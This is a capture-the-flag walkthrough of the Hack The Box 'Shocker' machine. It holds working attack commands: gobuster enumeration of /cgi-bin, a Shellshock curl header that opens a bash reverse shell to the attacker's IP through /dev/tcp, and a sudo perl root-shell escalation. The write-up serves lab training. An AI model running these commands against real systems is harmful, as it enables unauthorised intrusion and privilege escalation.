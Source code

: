 ## Initial Exploit - 
***
Gobuster finds the **/cgi-bin/** directory:  
> gobuster dir -u http://10.129.1.175 -w /usr/share/seclists/Discovery/Web-Content/big.txt -e -t 50

![](/home/kali/Walkthroughs/HackTheBox/shocker/images/buster1.png)

Gobuster finds the **user.sh** file:  
> gobuster dir -u http://10.129.1.175/cgi-bin/ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -e -t 50 -o buster80_cgibin_raftlarge.txt -x sh,pl,cgi

![](/home/kali/Walkthroughs/HackTheBox/shocker/images/buster2.png)

This page is vulnerable to Shellshock. Set up a listener:  
> sudo nc -lvnp 80

Send a reverse shell:  
> curl http://10.129.1.175/cgi-bin/user.sh -H "X-Frame-Options: () { :;};echo;/bin/bash -i >& /dev/tcp/10.10.16.16/80 0>&1"

The shell returns as shelly.

<div style="page-break-after: always;"></div>

## Privilege Escalation - 
***
Shelly can run perl as root with no password. 
![](/home/kali/Walkthroughs/HackTheBox/shocker/images/sudol.png)

Spawn a root shell:  
> sudo perl -e 'exec "/bin/sh";'

<div style="page-break-after: always;"></div>

## Proof - 
***
### User:

![](/home/kali/Walkthroughs/HackTheBox/shocker/images/user.png)

### Root:

![](/home/kali/Walkthroughs/HackTheBox/shocker/images/root.png)